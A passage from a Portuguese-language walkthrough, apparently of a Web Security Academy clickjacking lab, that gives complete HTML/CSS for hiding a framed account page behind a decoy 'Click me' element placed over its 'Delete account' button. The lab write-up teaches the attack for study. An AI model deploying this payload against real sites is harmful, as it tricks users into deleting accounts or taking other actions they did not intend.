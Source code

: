 poderemos deixar o `iframe` transparente, para poder fazer os ajustes de forma que a div fique sobre o botão `"Delete account"`. Então utilizando as propriedade `top` e `left`, iremos ajustar a posição da div para que ela fique sobre o botão.	

![botão](basic_botao.png)

No final não podemos esquecer de alterar a opacidade do `iframe` para 0.0001, para que ele fique invisível.

No final teremos o seguinte código:

```html

    <style>
        iframe {
            position: relative;
            width: 500px;
            height: 700px;
            opacity: 0.0001;
            z-index: 2;
        }
        
        div {
            position: absolute;
            top: 580px;
            left: 60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a9000e8049d6309c015137f00c40080.web-security-academy.net/my-account"></iframe>

```